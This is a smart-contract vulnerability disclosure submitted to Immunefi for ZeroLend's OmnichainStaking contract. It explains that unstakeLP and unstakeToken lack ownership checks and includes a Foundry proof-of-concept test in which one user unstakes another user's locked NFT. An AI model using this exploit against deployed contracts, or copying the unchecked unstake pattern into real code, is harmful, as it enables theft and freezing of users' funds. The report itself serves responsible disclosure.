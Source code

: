 
# OmnichainStaking.sol:unstakeLP and OmnichainStaking.sol:unstakeToken allows anyone to unstake any token provided they own enough ZEROvp

Submitted on Mar 8th 2024 at 07:52:20 UTC by @jovi for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29135

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/zerolend/governance

Impacts:
- Direct theft of any user NFTs, whether at-rest or in-motion, other than unclaimed royalties
- Temporary freezing of funds for at least 1 hour
- Permanent freezing of funds

## Description
## Brief/Intro
The unstakeLP and the unstakeToken functions at the OmnichainStaking contracts allow a user to burn ZEROvp tokens in order to get back user-defined tokenIds. This enables malicious parties to unstake tokens they don't rightfully own.

## Vulnerability Details
If we take a look at both unstaking functions, there are no checks to ensure the transaction caller has any right to that token id, rather the functions check if the caller owns enough ZEROvp token to be burnt. 

```solidity
function unstakeLP(uint256 tokenId) external {
        _burn(msg.sender, lpPower[tokenId] * 4);
        lpLocker.safeTransferFrom(address(this), msg.sender, tokenId);
    }

    function unstakeToken(uint256 tokenId) external {
        _burn(msg.sender, tokenPower[tokenId]);
        tokenLocker.safeTransferFrom(address(this), msg.sender, tokenId);
    }
```
This is not necessarily an issue if taken only at the OmnichainStaking contract context.
However, considering different NFTs have different lock expiries at both the LockerToken and the LockerLP contracts, malicious parties can unstake token ids to benefit in different forms, as shown at the impact section.

## Impact Details
Users can receive tokens before their lock expiry ends by unstaking ERC-721 tokens that have earlier expiry without the authorization of their rightful owners. This leads to the freezing of user funds that can be never-ending as other people can claim before the rightful owner.
## References
unstakeLP and unstakeToken functions at OmnichainStaking.sol: https://github.com/zerolend/governance/blob/main/contracts/locker/OmnichainStaking.sol#L76C5-L84C6

votingPowerOf and calculatePower functions at BaseLocker.sol:
https://github.com/zerolend/governance/blob/main/contracts/locker/BaseLocker.sol#L103C5-L116C6



## Proof of concept
Paste the following code snippet inside the test folder:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {console} from "../../lib/forge-std/src/console.sol";
import {StdInvariant} from "../../lib/forge-std/src/StdInvariant.sol";
import {LockerLP} from "../../locker/LockerLP.sol";
import {LockerToken} from "../../locker/LockerToken.sol";
import {OmnichainStaking} from "../../locker/OmnichainStaking.sol";
import {Test} from "../../lib/forge-std/src/Test.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MintableERC20 is ERC20 {
    address public owner;

    constructor(string memory name, string memory symbol) ERC20(name, symbol) {
        owner = msg.sender;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "MintableERC20: caller is not the owner");
        _;
    }

    function mint(address to, uint256 amount) public onlyOwner {
        _mint(to, amount);
    }
}

contract ZeroLendTest is StdInvariant, Test {

    LockerLP lockerLP;
    LockerToken lockerToken;
    OmnichainStaking omnichainStaking;
    MintableERC20  arbitraryToken;
    address user = makeAddr("user");
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");
    address public configurator = makeAddr("configurator");
    uint256 internal WEEK;
    uint256 internal MAXTIME;

    function setUp() public {
        vm.prank(configurator);
        arbitraryToken = new MintableERC20("Arbitrary Token", "ATKN");
        vm.prank(configurator);
        arbitraryToken.mint(user, 1 ether);
        vm.prank(configurator);
        arbitraryToken.mint(alice, 1 ether);
        vm.prank(configurator);
        arbitraryToken.mint(bob, 1 ether);


        vm.prank(configurator);
        lockerLP = new LockerLP();

        lockerLP.init(
            address(arbitraryToken),
            // staking address
            address(0x1000),
            // stakingBonus
            address(0x1001)
        );

        lockerToken = new LockerToken();
        lockerToken.init(
            address(arbitraryToken),
            // staking address
            address(0x1000),
            // stakingBonus
            address(0x1001)
        );

        omnichainStaking = new OmnichainStaking();
        omnichainStaking.init(
            // LZ endpoint
            address(0x1002),
            // tokenLocker
            address(lockerToken),
            // lpLocker
            address(lockerLP)
        );

        WEEK = 1 weeks;
        MAXTIME = 365 * 86400;

    }

    function test_poc1() public {

        vm.prank(alice);
        arbitraryToken.approve(address(lockerLP), 1 ether);
        vm.prank(bob);
        arbitraryToken.approve(address(lockerLP), 1 ether);

        uint256 unlockTime0 = ((block.timestamp + MAXTIME) / WEEK) * WEEK - 100; // Locktime is rounded down to weeks
        vm.prank(alice);
        lockerLP.createLock(0.5 ether, unlockTime0, false);

        // pass 2 weeks
        vm.warp(block.timestamp + 2 * WEEK);

        uint256 unlockTime1 = unlockTime0  + 1 * WEEK; // Locktime is rounded down to weeks
        vm.prank(bob);
        lockerLP.createLock(0.5 ether, unlockTime1, false);

        // transfer both tokens to the omnichainStaking contract
        vm.prank(alice);
        lockerLP.safeTransferFrom(alice, address(omnichainStaking), 1);

        vm.prank(bob);
        lockerLP.safeTransferFrom(bob, address(omnichainStaking), 2);

        // get the lock 1 expiry
        (, uint256 end,,) = lockerLP.locked(1);

        // travel to the expiry period + 1 day
        vm.warp(end + 1 days);

        require(end < block.timestamp);

        // bob will unstake alice's token and be able to withdraw the token at the lockerLp contract.
        vm.prank(bob);
        omnichainStaking.unstakeLP(1);

        // alice will try to unstake her token and fail
        vm.prank(alice);
        vm.expectRevert();
        omnichainStaking.unstakeLP(1);

        // alice will end be able to unstake bob's token, but notice how it is still locked at the lockerLp contract
        (,end,,) = lockerLP.locked(2);
        require(end > block.timestamp);


       }

}
```

Run the test with the following command:
```shell
forge test --match-test test_poc1 -vvv
```